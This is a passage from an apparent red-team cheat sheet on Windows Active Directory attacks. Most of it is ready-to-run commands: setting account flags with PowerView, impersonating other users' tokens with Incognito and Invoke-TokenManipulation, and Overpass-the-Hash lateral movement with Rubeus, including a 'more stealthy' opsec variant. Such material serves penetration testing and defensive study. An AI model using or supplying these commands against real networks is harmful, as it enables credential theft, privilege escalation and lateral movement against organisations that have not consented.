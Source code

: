 Again, we need ACL write permissions to set UserAccountControl flags for the target user. Using PowerView:

Set-DomainObject -Identity TargetUser -XOR @{useraccountcontrol=4194304}

PowerShell

# Token Manipulation

Tokens can be impersonated from other users with a session/running processes on the machine. Most C2 frameworks have functionality for this built-in (such as the ‘Steal Token’ functionality in Cobalt Strike).

## Incognito

# Show tokens on the machine  
.\incognito.exe list_tokens -u# Start new process with token of a specific user  
.\incognito.exe execute -c "domain\user" C:\Windows\system32\calc.exe

PowerShell

> _If you’re using Meterpreter, you can use the built-in Incognito module with_ `_use incognito_`_, the same commands are available._

## Invoke-TokenManipulation

# Show all tokens on the machine  
Invoke-TokenManipulation -ShowAll# Show only unique, usable tokens on the machine  
Invoke-TokenManipulation -Enumerate# Start new process with token of a specific user  
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user"# Start new process with token of another process  
Invoke-TokenManipulation -CreateProcess "C:\Windows\system32\calc.exe" -ProcessId 500

PowerShell

# Lateral Movement with Rubeus

We can use Rubeus to execute a technique called “Overpass-the-Hash”. In this technique, instead of passing the hash directly (another technique known as Pass-the-Hash), we use the NTLM hash of an account to request a valid Kerberost ticket (TGT). We can then use this ticket to authenticate towards the domain as the target user.

# Request a TGT as the target user and pass it into the current session  
# NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs  
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /ptt# More stealthy variant, but requires the AES256 key (see 'Dumping OS credentials with Mimikatz' section)  
.\Rubeus.exe asktgt /user:Administrator /aes256:[AES256KEY] /opsec /ptt# Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)  
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /createnetonly:C:\Windows\System32\cmd.exe
